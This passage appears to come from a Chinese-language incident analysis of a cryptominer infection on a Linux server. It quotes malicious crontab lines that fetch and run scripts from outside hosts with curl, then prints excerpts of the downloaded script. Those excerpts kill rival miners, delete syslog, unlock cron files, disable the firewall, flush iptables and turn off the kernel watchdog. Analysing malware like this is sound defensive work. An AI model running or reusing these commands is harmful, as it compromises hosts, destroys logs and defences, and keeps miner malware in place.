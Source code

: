 ```
59 * * * * root (curl -fsSL http://t.amynx.com/ ......
28 * * * * root (curl -fsSL http://t.jdjdcjq.top/ ......
13 * * * * root ps aux|grep lplp.ackng.com ......

```

我把恶意脚本获取到本地，这是一个 shell 脚本，接下来分析看看这个脚本干什么

### 恶意脚本分析

恶意脚本脚本共 439 行代码，前面 300 行都是删除文件和杀死进程，我简单摘要几段代码

```
#/bin/bash
processes(){
    killme() {
      killall -9 chron-34e2fg;ps wx|awk '/34e|r\/v3|moy5|defunct/' | awk '{print $1}' | xargs kill -9 & > /dev/null &
    }

    killa() {
    what=$1;ps auxw|awk "/$what/" |awk '!/awk/' | awk '{print $2}'|xargs kill -9&>/dev/null&
    }

    killa 34e2fg
    killme

    killall \.Historys
    killall \.sshd
    killall neptune
    killall xm64
    killall xm32
    killall xmrig
    killall \.xmrig
    killall suppoieup

    # sshd
    ps ax | grep sshd | grep -v grep | awk '{print $1}' > /tmp/ssdpid
    while read sshdpid
    do
        if [ $(echo  $(ps -p $sshdpid -o %cpu | grep -v \%CPU) | sed -e 's/\.[0-9]*//g')  -ge 60 ]
        then
            kill $sshdpid
        fi
    done < /tmp/ssdpid
    rm -f /tmp/ssdpid

# Removing miners by known path IOC
files(){
    ulimit -n 65535
    rm -rf /var/log/syslog
    chattr -iua /tmp/
    chattr -iua /var/tmp/
    chattr -R -i /var/spool/cron
    chattr -i /etc/crontab
    ufw disable
    iptables -F
    echo "nope" >/tmp/log_rot
    sudo sysctl kernel.nmi_watchdog=0
    echo '0' >/proc/sys/kernel/nmi_watchdog
    echo 'kernel.nmi_watchdog=0' >>/etc/sysctl.conf
    rm /tmp/.cron
    rm /tmp/.main
    rm /tmp/.yam* -rf
```